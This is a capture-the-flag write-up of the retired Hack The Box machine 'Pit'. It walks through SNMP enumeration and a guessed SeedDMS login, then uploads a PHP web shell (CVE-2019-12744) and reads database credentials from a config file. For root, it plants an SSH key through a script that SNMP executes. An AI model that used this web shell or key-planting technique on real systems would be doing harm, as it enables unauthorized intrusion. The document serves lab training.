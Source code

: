 # Pit

This is the write-up for the box Pit that got retired at the 25th September 2021.
My IP address was 10.10.14.3 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.241    pit.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/pit.nmap 10.10.10.241
```

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
|_http-server-header: nginx/1.14.1
9090/tcp open  ssl/zeus-admin?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 400 Bad request
(...)
```

UDP port scan:
```
nmap -sU 10.10.10.241
```
```
PORT    STATE SERVICE
161/udp open  snmp
```

## Checking HTTPS (Port 9090)

The website on port 9090 shows a login form to the server management software **Cockpit**:

![Login form to Cockpit](pit_web-1.png)

The certificate of the HTTPS site contains the hostname _dms-pit.htb_ that has to be added to the _/etc/hosts_ file to access it, but it forwards to the same login page.

## Checking HTTP (Port 80)

The website shows the _"Welcome to nginx on Red Hat Enterprise Linux!"_ page, which is the default **nginx** installation site on **Red Hat Enterprise Linux**.

The hostname _dms-pit.htb_ results in a HTTP status code _403 Forbidden_, so there is another web service there.

## Checking SNMP (Port 161)

Enumerating the SNMP service:
```
snmpwalk -v2c -c public 10.10.10.241 . | tee snmp.out
```

There is a potential username:
- _michelle_

Searching for web files:
```
grep html snmp.out
```

There is the directory _/var/www/html/seeddms51x/seeddms_ which exists on the hostname _dms-pit.htb_ on port 80.
It forwards to a login page of the document management system [SeedDMS](https://www.seeddms.org/):

![Login form SeedDMS](pit_web-2.png)

## Exploiting SeedDMS

By trying some easy-to-guess passwords the username _michelle_ uses the following password:
> michelle

This user has access to some documents and one from the administrator reveals the installed version of the application:
```
Dear colleagues,

Because of security issues in the previously installed version (5.1.10), I upgraded SeedDMS to version 5.1.15.
See the attached CHANGELOG file for more information.
If you find any issues, please report them immediately to admin@dms-pit.htb.
```

There is a public **Remote Code Execution** vulnerability for this application:
```
searchsploit seeddms

SeedDMS versions < 5.1.11 - Remote Command Execution
```

The [changelog file in the Git repository](https://sourceforge.net/p/seeddms/code/ci/master/tree/CHANGELOG) shows the fix for this vulnerability in version _5.1.11_:
```
fix for CVE-2019-12744 (Remote Command Execution through unvalidated file upload), add .htaccess file to data directory, better documentation for installing seeddms
```

This web server is **Nginx**, which [does not use .htaccess](https://www.nginx.com/resources/wiki/start/topics/examples/likeapache-htaccess/) and thus the vulnerability should still work here.

Uploading a document:
```
Docs --> Users --> Michelle --> Add document
```

Creating a malicious PHP file and adding it to the document:
```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Browsing to the uploaded PHP file and testing command execution with the `id` command:
```
http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=id
```

It works and can be used to enumerate the box.

### Enumerating Local Files

As observed in the SNMP strings and the dot symbol behind every folder, it indicates that **SELinux** is enabled and getting a shell is not easily possible.

Enumerating the configuration of the web service
```
POST /seeddms51x/data/1048576/30/1.php HTTP/1.1
(...)

cmd=pwd
```
```
/var/www/html/seeddms51x/data/1048576/30
```
```
cmd=ls -la ../../../
cmd=ls -la ../../../conf
cmd=cat ../../../conf/settings.xml
```

The file _conf/settings.xml_ contains credentials:
```
dbDriver="mysql"
dbHostname="localhost"
dbDatabase="seeddms"
dbUser="seeddms"
dbPass="ied^ieY6xoquu"
```

The password works with the username _michelle_ on the login page of **Cockpit** on port 9090 and in the menu is a _Terminal_ that uses the permissions of the user.

## Privilege Escalation

In the SNMP strings there was output of a command or script that came from _/usr/bin/monitor_.
This seems to be executed when the SNMP strings are called.

It is a shell script and executes _/usr/local/monitoring/check*sh_:
```
file /usr/bin/monitor

/usr/bin/monitor: Bourne-Again shell script, ASCII text executable
```

Only root has access to the folder, but the plus symbol indicates that there are extended permissions that can be checked with `getfacl`:
```
ls -la /usr/local/ | grep monitoring

drwxrwx---+  2 root root 122 Aug 24 15:25 monitoring
```
```
getfacl /usr/local/monitoring/

# file: usr/local/monitoring/
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---
```

The user can write into the directory, so lets create a shell script that will execute upon calling the SNMP service:
```
echo 'echo This is a test' > /usr/local/monitoring/check1.sh
```

Calling the SNMP service from our local client:
```
snmpwalk -v2c -c public 10.10.10.241 .
```
```
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: This is a test
```

It executed the `echo` command, so this can be used to upload an SSH key:
```
echo 'echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABg(...) >> /root/.ssh/authorized_keys' > /usr/local/monitoring/check1.sh
```

After running the `snmpwalk` again, the command will be executed and add the SSH key into the _.ssh/authorized_keys_ file of root and it is possible to login as root!
```
ssh -i pit root@10.10.10.241
```
